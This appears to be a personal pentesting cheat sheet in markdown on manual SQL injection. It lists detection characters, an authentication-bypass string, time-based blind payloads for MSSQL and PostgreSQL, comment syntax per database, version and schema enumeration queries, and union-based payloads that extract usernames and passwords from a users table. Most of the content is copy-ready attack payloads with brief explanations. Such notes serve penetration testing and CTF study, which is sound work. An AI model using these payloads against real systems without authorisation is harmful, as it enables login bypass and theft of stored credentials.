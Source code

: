 # SQL Injections

```default
  _   ___  ___  ___  ___   ___   _ _____ _   ___   _   ___ ___                    _           
 ( ) |   \| _ \/ _ \| _ \ |   \ /_\_   _/_\ | _ ) /_\ / __| __|  _ __ _ _ ___  __| |  ___ ___ 
 |/  | |) |   / (_) |  _/ | |) / _ \| |/ _ \| _ \/ _ \\__ \ _|  | '_ \ '_/ _ \/ _` | |___|___|
     |___/|_|_\\___/|_|   |___/_/ \_\_/_/ \_\___/_/ \_\___/___| | .__/_| \___/\__,_|          
                                                                |_|                           
```

This file is mostly for **manual SQL injections**. 

There should be separate notes for SQLMap somewhere.

## Table of Contents:

* [Detection](./sql_injection.md#detection)
* [Comments](./sql_injection.md#comments)
* [Enumeration](./sql_injection.md#database-software-enum)
* Union-Based
* Error-Based
* Time-Based
* Concat rows

## Detection

When doing manual enum, throw some special characters into a parameter and see if it breaks anything in an unexpected way:

```default
'"(){};
```
```default
'"(){}; -- -#/*
```

But you might also be able to trigger a lot with just a single `'`.

The most basic SQL login bypass:

* user: `' or '1'='1'-- -`
* pass: `' or '1'='1'-- -`


Sometimes you need to escape a function first before you can execute any query:
```default
') <your injection> -- -
```
or
```default
) <your injection> -- -
```

It might requires a bunch of brackets: `'))) <your injection> -- -`


Some SQL injections are blind, they do not return anything visible on the page like added data or an error message. You usually can check those with time based delays.

```default
;WAITFOR DELAY '0:0:5'-- -
);WAITFOR DELAY '0:0:5'-- -
');WAITFOR DELAY '0:0:5'-- -
;SELECT PG_SLEEP(5)--
);SELECT PG_SLEEP(5)--
');SELECT PG_SLEEP(5)--
```

If the server seems to 'freeze' for the given sleep time, then it worked.

## Comments

* MySQL: #, --
* MS SQL: --
* MS Access: %00 (hack!)
* Oracle: --

You often need to get rid of the part of the query that comes after your injection. You can do that by simply commenting out the remainder of the query.

Most often the two minuses work:
```default
--
```

But sometimes it is required that there is a space after the minuses: `-- `. An additional character afterwards ensures the space does not get removed in some strip() or trim() function.

So this is the preferred method that almost always work:
```default
-- -
```

Multi-line comments are also supported sometimes: `/* comment goes here */`. 
Obviously this might not always work because you can only control the comment start `/*`. 
Maybe you can create some funny results through multiple injection points into the same query.

Some engines also support the hash character `#` to initiate a comment.


## Database Software Enum

After gaining basic control, the first thing you want to do is try to find out what you are working with. That will determine the syntax you have to use and where you have to look for interesting data.

### Version

* Oracle : `select banner from v$version-- -`
* Mysql : `select VERSION();` ;alternatively: `SELECT @@version`
* MSSQL : `SELECT @@version`
* PostgreSQL : `SELECT version()`

### Tables

Databases besides Oracle usually support:

```default
SELECT * FROM information_schema.tables
SELECT TABLE_CATALOG TABLE_SCHEMA TABLE_NAME TABLE_TYPE FROM information_schema.tables
```

The rows of a table work similar:
```default
SELECT * FROM information_schema.columns WHERE table_name = 'Users'
SELECT TABLE_CATALOG TABLE_SCHEMA TABLE_NAME COLUMN_NAME DATA_TYPE WHERE table_name = 'Users'
```

Oracle:
```default
SELECT * FROM all_tables 
```

```default
SELECT * FROM all_tab_columns 
```


## Union-based attacks

* When to use:    There is a generated list/table of items generated by an injectible query
* Target result:  Include the rows of another table into the generated list/table (like username, password of a users table)

### Figure out number of selected rows

You can use the `order by` keyword. The query will error out if you order by a number greater than the available rows.

```default
' ORDER BY 1--
' ORDER BY 2--
' ORDER BY 3--
' ORDER BY 4--
... etc.
```

Alternatively you might be able to union select some data constants:

```default
' UNION SELECT NULL--
' UNION SELECT NULL,NULL--
' UNION SELECT NULL,NULL,NULL--
... etc.
```

or

```default
' UNION SELECT 1--
' UNION SELECT 1,2--
' UNION SELECT 1,2,3--
... etc.
```

The last version might not always work, but the benefit is that you can see where each row ends up in the printed table.

Figure out data type of each row:
```default
' UNION SELECT 'a',NULL,NULL,NULL--
' UNION SELECT NULL,'a',NULL,NULL--
' UNION SELECT NULL,NULL,'a',NULL--
' UNION SELECT NULL,NULL,NULL,'a'-- 
```

For integers do the same with some number.

On Oracle you might have to use a table even for constant data values, use the build-in DUAL table then:
```default
' UNION SELECT NULL,NULL FROM DUAL--. 
```

### Example
```default
' union select username,password from users-- -
```


## Concatinate several rows

Maybe you can only control a single row or you have to deal with multi line output, then you need to concat content.

### Oracle:

```default
' union select NULL,username || '~' ||password from users-- -
```

Which selects the rows username and password into one row like 'admin~password123'










